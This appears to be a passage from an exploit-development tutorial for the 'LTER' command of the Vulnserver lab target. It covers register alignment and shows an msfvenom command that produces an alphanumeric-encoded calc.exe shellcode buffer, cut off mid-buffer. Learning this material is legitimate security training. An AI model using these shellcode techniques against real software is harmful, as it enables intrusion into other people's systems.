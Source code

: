 ##### The alignment seems to have done its work as intended.

![](/assets/img/LTER/12.png)

##### The next step is pointing ESI to the shellcode, to do this, alphanumeric shellcode using the ESI register is generated, and the value of EBX is pushed into the stack and popped into EAX, in order to make the calculations smaller.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed BufferRegister=ESI EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 440 (iteration=0)
x86/alpha_mixed chosen with final size 440
Payload size: 440 bytes
Final size of py file: 2145 bytes
buf =  b""
buf += b"\x56\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += b"\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
buf += b"\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
buf += b"\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
buf += b"\x49\x6c\x38\x68\x6c\x42\x37\x70\x43\x30\x33\x30\x63"
buf += b"\x50\x4f\x79\x48\x65\x75\x61\x4f\x30\x31\x74\x6e\x6b"
buf += b"\x36\x30\x76\x50\x6c\x4b\x31\x42\x54\x4c\x6c\x4b\x62"
buf += b"\x72\x64\x54\x4e\x6b\x54\x32\x37\x58\x44\x4f\x6e\x57"
buf += b"\x73\x7a\x47\x56\x70\x31\x79\x6f\x6e\x4c\x55\x6c\x71"
buf += b"\x71\x73\x4c\x75\x52\x44\x6c\x65\x70\x6f\x31\x48\x4f"
buf += b"\x54\x4d\x33\x31\x6a\x67\x49\x72\x39\x62\x30\x52\x31"
buf += b"\x47\x6e\x6b\x76\x32\x36\x70\x4c\x4b\x73\x7a\x77\x4c"
buf += b"\x6e\x6b\x30\x4c\x77\x61\x30\x78\x4a\x43\x43\x78\x37"
buf += b"\x71\x78\x51\x66\x31\x6c\x4b\x42\x79\x31\x30\x45\x51"
buf += b"\x5a\x73\x4c\x4b\x70\x49\x66\x78\x6b\x53\x46\x5a\x31"
buf += b"\x59\x6c\x4b\x56\x54\x4e\x6b\x35\x51\x79\x46\x64\x71"
buf += b"\x4b\x4f\x6e\x4c\x7a\x61\x5a\x6f\x46\x6d\x56\x61\x78"
buf += b"\x47\x67\x48\x49\x70\x73\x45\x4a\x56\x44\x43\x73\x4d"
buf += b"\x7a\x58\x77\x4b\x43\x4d\x65\x74\x31\x65\x68\x64\x72"
buf += b"\x78\x6c\x4b\x31\x48\x34\x64\x73\x31\x5a\x73\x75\x36"
buf += b"\x4c\x4b\x76\x6c\x50\x4b\x6e\x6b\x76\x38\x77\x6c\x76"
buf += b"\x61\x5a\x73\x6c\x4b\x74\x44\x4e\x6b\x35\x51\x6a\x70"
buf += b"\x4c\x49\x37\x34\x47\x54\x64\x64\x43\x6b\x51\x4b\x65"
buf += b"\x31\x76\x39\x70\x5a\x33\x61\x49\x6f\x4d\x30\x53\x6f"
buf += b"\x33\x6f\x43\x6a\x6c\x4b\x65\x42\x48\x6b\x4c\x4d\x71"
```